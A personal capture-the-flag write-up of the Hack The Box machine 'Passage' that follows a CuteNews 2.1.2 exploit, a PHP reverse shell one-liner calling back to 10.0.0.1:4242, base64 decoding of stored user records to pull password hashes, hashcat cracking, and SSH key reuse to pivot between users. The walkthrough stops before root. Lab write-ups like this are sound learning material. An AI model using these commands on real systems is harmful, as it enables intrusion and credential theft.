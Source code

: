 ```yaml
---
description: https://app.hackthebox.com/machines/Passage
---
```


# 🚒 Passage

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We find 2 TCP ports open:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

On the web page we see the follwoing information ->

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Fail 2 ban is an anti brute force software:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So basically with a gobuster I got my IP banned so i'm going to be cautious when it comes to finding subdirectories

through enumeration, i find that it's CuteNews 2.1.2 running with a known CVE ->

{% embed url="https://www.exploit-db.com/exploits/48800" %}

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Very straightforward CVE

We see some PHP files&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So with a quick PHP reverse shell ->

```
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We get a more stable shell

after enumerating a bit, we find where is stored the flat files that are used by cuteCMS as a "database"

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we see this is base64 encoded:

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

After looking up a write-up to see how a pro would go quick to go through all of this, i found this crazy one-liner that got me thinking i should start learning those:

```
for f in *; do cat $f | grep -v 'php die'; echo; done | grep . | while read line; do echo $line | base64 -d; echo; done | grep '"pass"'
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**explanation:**

1.  **Loop Over Files**:

    ```sh
    for f in *; do
    ```

    This loop iterates over all files in the current directory (using `*` to match all filenames).
2.  **Process Each File**:

    ```sh
    cat $f | grep -v 'php die'; echo;
    ```

    For each file, it:

    * Uses `cat $f` to read the content of the file.
    * Pipes the content to `grep -v 'php die'`, which filters out any lines containing the string `'php die'`.
    * Uses `echo` to add a newline after processing each file.
3.  **Concatenate and Filter Non-Empty Lines**:

    ```sh
    done | grep . |
    ```

    After processing all files, `done` ends the loop. The output is then piped to `grep .`, which filters out any empty lines (only lines containing at least one character are kept).
4.  **Read and Decode Each Line**:

    ```sh
    while read line; do echo $line | base64 -d; echo; done |
    ```

    This `while` loop reads each non-empty line:

    * `read line` reads a line into the variable `line`.
    * `echo $line | base64 -d` decodes the line from base64 encoding.
    * `echo` adds a newline after each decoded line.

Since we looked at the home directory and saw a paul user, we could guess that this user is the pivoting path, so i added a grep "paul" to the oneliner as a part of contribution

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

took this hash and looked it up and saw it was mode 1400 on hashcat ->

```
hashcat -m 1400 hash.txt /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I could not change user with my low interaction shell so i did a tty upgrade ->

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and we connect&#x20;

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly find an ssh authorization key:

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

We copy the id\_rsa key and connect to nadav user ->

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

We'll get root tomorrow&#x20;

